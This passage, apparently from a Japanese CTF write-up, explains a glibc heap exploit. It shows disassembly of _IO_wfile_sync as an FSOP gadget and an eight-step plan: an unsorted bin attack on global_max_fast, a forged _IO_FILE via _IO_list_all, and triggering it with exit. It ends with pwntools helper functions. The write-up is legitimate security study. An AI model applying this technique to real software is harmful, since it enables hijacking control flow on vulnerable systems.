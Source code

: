 ```
```

適当に隣の関数もいくつか眺めてみますが、レジスタでcallしているところが見当たりません。こういう時はgoogleです。googleの結果、2.29以降のfsopガジェットは_IO_wfile_syncがおすすめ、と出てきます。確認してみます。

```
   0x7f388244b7e0 <_IO_wfile_sync>:     push   r13
   0x7f388244b7e2 <_IO_wfile_sync+2>:   push   r12
   0x7f388244b7e4 <_IO_wfile_sync+4>:   push   rbp
   0x7f388244b7e5 <_IO_wfile_sync+5>:   push   rbx
   0x7f388244b7e6 <_IO_wfile_sync+6>:   mov    rbx,rdi
   0x7f388244b7e9 <_IO_wfile_sync+9>:   sub    rsp,0x18
   0x7f388244b7ed <_IO_wfile_sync+13>:  mov    rax,QWORD PTR [rdi+0xa0]
   0x7f388244b7f4 <_IO_wfile_sync+20>:  mov    rdx,QWORD PTR [rax+0x20]
   0x7f388244b7f8 <_IO_wfile_sync+24>:  mov    rsi,QWORD PTR [rax+0x18]
   0x7f388244b7fc <_IO_wfile_sync+28>:  cmp    rdx,rsi
   0x7f388244b7ff <_IO_wfile_sync+31>:  jbe    0x7f388244b82f <_IO_wfile_sync+79>
   ↑これ飛ぶ
   0x7f388244b801 <_IO_wfile_sync+33>:  mov    eax,DWORD PTR [rdi+0xc0]
   0x7f388244b807 <_IO_wfile_sync+39>:  test   eax,eax
   0x7f388244b809 <_IO_wfile_sync+41>:  jle    0x7f388244b920 <_IO_wfile_sync+320>
   0x7f388244b80f <_IO_wfile_sync+47>:  sub    rdx,rsi
   0x7f388244b812 <_IO_wfile_sync+50>:  sar    rdx,0x2
   0x7f388244b816 <_IO_wfile_sync+54>:  call   0x7f388244b340 <_IO_wdo_write>
   0x7f388244b81b <_IO_wfile_sync+59>:  test   eax,eax
   0x7f388244b81d <_IO_wfile_sync+61>:  setne  al
   0x7f388244b820 <_IO_wfile_sync+64>:  test   al,al
   0x7f388244b822 <_IO_wfile_sync+66>:  jne    0x7f388244b90d <_IO_wfile_sync+301>
   0x7f388244b828 <_IO_wfile_sync+72>:  mov    rax,QWORD PTR [rbx+0xa0]
   0x7f388244b82f <_IO_wfile_sync+79>:  mov    r12,QWORD PTR [rax]
   0x7f388244b832 <_IO_wfile_sync+82>:  mov    r13,QWORD PTR [rax+0x8]
   0x7f388244b836 <_IO_wfile_sync+86>:  cmp    r12,r13
   0x7f388244b839 <_IO_wfile_sync+89>:  je     0x7f388244b8e6 <_IO_wfile_sync+262>
   ↑これ飛ばない
   0x7f388244b83f <_IO_wfile_sync+95>:  mov    rbp,QWORD PTR [rbx+0x98]
   0x7f388244b846 <_IO_wfile_sync+102>: mov    rdi,rbp
   0x7f388244b849 <_IO_wfile_sync+105>: call   QWORD PTR [rbp+0x20]
   ↑ここに入りたい
   ```

+31で飛んで、+89で飛ばなければ第一引数を設定して関数に飛べそうです。条件はどちらもrdiの値からポインタを比較しているので勝手に用意すればよく、厳しくなさそうです。ただheapのリークは必要そうなのでさっきの方針に加えておきます。あとは、条件をパスするようにアドレスを調整して終了です。最終的な方針は以下の通り。

1. 0x420サイズ以上のチャンクを確保
2. global_max_fastを上書きしたあとfreeすると_IO_list_allを書き換えられるサイズでチャンクを確保
3. heapアドレスリーク用のチャンクを確保
4. 1.を解放しlibcリーク
5. unosrtedbin attackでglobal_max_fastを例の値に差し替え
6. 2で確保したチャンクをfreeする
7. リークしている情報を使って、2と同じサイズのチャンクを確保してfake _IO_FILE構造体を書き込む
8. 再度freeして繋ぎ、exitを呼ぶ

```python
def a(size, data):
        r.sendlineafter('> ', '1')                  
        r.sendlineafter('> ', str(size))            
        r.sendafter('> ', data)

def d(idx):
        r.sendlineafter('> ', '2')                  
        r.sendlineafter('> ', str(idx))

def e(idx, data):
        r.sendlineafter('> ', '3')
        r.sendlineafter('> ', str(idx))
        r.sendafter('> ', data)
```